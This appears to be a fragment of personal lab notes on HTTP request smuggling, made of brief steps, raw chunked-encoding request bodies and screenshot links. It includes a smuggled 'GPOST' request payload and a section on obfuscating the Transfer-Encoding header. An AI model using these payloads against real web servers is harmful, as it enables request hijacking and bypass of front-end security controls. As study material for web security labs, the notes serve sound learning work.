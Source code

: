 - Take the same normal request again , and change to POST method , and change the protocol to HTTP/1 and use the request body below[we get 200 OK and name it as Normal req]
```
foo=bar
```
![[Pasted image 20240516111504.png]]


```
\r\n
1\r\n
G\r\n
0\r\n
\r\n

```
![[Pasted image 20240516111803.png]]


![[Pasted image 20240516111940.png]]


```
\r\n
56\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 6\r\n
\r\n
0\r\n
\r\n

```
![[Pasted image 20240516112828.png]]


![[Pasted image 20240516113344.png]]

![[Pasted image 20240516113646.png]]

![[Pasted image 20240516113551.png]]


# HTTP request smuggling, obfuscating the TE header


![[Pasted image 20240516150906.png]]

```
\r\n
3\r\n
abc\r\n
X\r\n

```
![[Pasted image 20240516151054.png]]
